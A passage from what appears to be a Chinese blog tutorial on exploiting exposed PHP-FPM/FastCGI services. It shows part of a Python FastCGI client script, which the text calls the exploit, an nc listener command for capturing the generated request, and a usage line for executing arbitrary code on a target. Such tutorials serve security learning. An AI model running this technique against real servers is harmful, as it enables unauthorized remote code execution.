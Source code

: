 ```cobol
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))
        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record
    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return
        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)
        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
```

我们首先通过nc监听端口

```less
nc -lvvp [端口] > [文件名]
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/84df0dda9706d9298d92babc69992325.png" alt="" style="max-height:142px; box-sizing:content-box;" />


然后通过上面的exp执行命令

```css
python [脚本名] -c [要执行的代码] -p [端口号] [ip] [要执行的php文件]
```
